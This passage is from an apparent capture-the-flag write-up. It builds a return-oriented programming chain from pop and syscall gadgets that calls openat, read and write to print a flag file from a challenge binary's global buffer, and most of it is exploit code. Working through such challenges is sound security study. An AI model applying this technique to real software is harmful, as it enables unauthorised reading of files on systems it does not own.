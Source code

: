 We can directly feed `/home/user/flag.txt\0` into the `name` buffer. Since we know `name` is global (`.bss`) and we can compute its runtime address, we just point `openat()` to it.
```
$ objdump -t chall | grep name 
0000000000004050 l     O .bss	000000000000001e              _ZL4name
```

---

## ROP Time – Cracking the Wall

We’re now ready to build our ROP chain.

### openat(AT_FDCWD, name_addr, O_RDONLY)

- `AT_FDCWD` is -100 → `0xffffff9c`
- syscall number for `openat` → 257
- We're using **syscall gadget** (gifted in the binary via `gift()` function!)

### read(3, name_addr, 0x100)

- FD = 3 → file descriptor returned from `openat`

### write(1, name_addr, 0x100)

- Write flag contents to stdout.

ROP chain:
```python
rop += p64(pop_rdi_ret)
rop += p64(AT_FDCWD & 0xffffffffffffffff)
rop += p64(pop_rsi_pop_r15_ret)
rop += p64(name_addr)
rop += p64(0)  # junk for r15
rop += p64(pop_rdx_ret)
rop += p64(O_RDONLY)
rop += p64(pop_rax_ret)
rop += p64(257)  # openat
rop += p64(syscall_ret)

rop += p64(pop_rdi_ret)
rop += p64(3)  
rop += p64(pop_rsi_pop_r15_ret)
rop += p64(name_addr)
rop += p64(0)
rop += p64(pop_rdx_ret)
rop += p64(0x100)
rop += p64(pop_rax_ret)
rop += p64(0)  # syscall read
rop += p64(syscall_ret)

rop += p64(pop_rdi_ret)
rop += p64(1)  
rop += p64(pop_rax_ret)
rop += p64(1)  # syscall write
rop += p64(syscall_ret)
```

---